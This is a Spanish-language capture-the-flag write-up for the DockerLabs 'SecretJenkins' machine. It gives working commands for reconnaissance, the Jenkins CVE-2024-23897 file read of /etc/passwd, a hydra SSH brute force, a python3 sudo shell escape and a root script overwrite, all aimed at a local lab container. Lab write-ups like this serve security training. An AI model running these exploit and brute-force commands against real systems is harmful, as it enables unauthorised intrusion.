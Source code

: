 ```yaml
---
title: SecretJenkins - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/f3015160-3c6a-41ed-8b7a-7e6f8d0ad54b)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `8080` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p22,8080 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/cc8124ce-96cb-4609-aa42-634a6fcdfba4)

# Exploración Web

En el puerto `8080` encontramos un servidor Jenkins que muestra un panel de inicio de sesión.

![image](https://github.com/user-attachments/assets/71cb5b57-8247-46cb-aeb0-e71f785d8faf)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/b3a7df30-cbf2-4314-a2b8-3e82bbd82fbd)

Explorando las rutas, verificamos que la versión de `Jenkins es 2.441`.

# LFI
La versión `2.441` de Jenkins es vulnerable a un LFI, según la vulnerabilidad documentada en [GitHub](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)

Para explotarla, descargamos el archivo `jenkins-cli.jar`:
```URL
http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```
Con este archivo, ejecutamos el siguiente comando para intentar leer el archivo `/etc/passwd`:
```bash
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"
```

![image](https://github.com/user-attachments/assets/57ab7c6d-0ccc-404e-bd13-ed7292ca5a57)

# Fuerza Bruta 
Identificamos dos usuarios potenciales (`pinguinito` y `bobby`) y usamos `hydra` para realizar un ataque de fuerza bruta sobre SSH, encontrando una contraseña para `bobby`:
```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 
```
![image](https://github.com/user-attachments/assets/bbb6159d-c30f-4718-89b4-075b6b4f2ccf)

La contraseña de `bobby` es `chocolate`.

# Intrusion

Accedemos mediante SSH como el usuario `bobby`:

![image](https://github.com/user-attachments/assets/6bcb0254-2860-45d1-9668-6015c61c7f29)

Al ejecutar `sudo -l`, notamos que `bobby` tiene permisos para ejecutar `python3` como `pinguinito` .Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/b0a36d6d-7206-4f69-b2fe-a3f0d9926dba)

Ahora estamos como el usuario `pinguinito`.

# Escalada de privilegios.

Volvemos a ejecutar `sudo -l`, notamos que `pinguinito` tiene permisos para ejecutar `python3` como `root` en `/opt/script.py
`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/690ab7ee-2455-4cdd-939c-b0c93837cf9e)

Observamos que el archivo es propiedad de `pinguinito`, lo que nos permite modificarlo.

![image](https://github.com/user-attachments/assets/61bd02cc-0fb5-4556-b1c6-4fc94d3f8aad)

Para editarlo, usamos comandos de escritura ya que no están habilitados ni `nano` ni `vim`:

![image](https://github.com/user-attachments/assets/d4346a5c-903a-4e99-8446-44d284d7250e)

```bash
chmod 744 /opt/script.py
echo "import os" > /opt/script.py
echo 'os.system("bash")' >> /opt/script.py
```

Ejecutamos el script y obtenemos acceso como root:

![image](https://github.com/user-attachments/assets/e11413ce-825d-4e27-b96d-2a59343f673a)
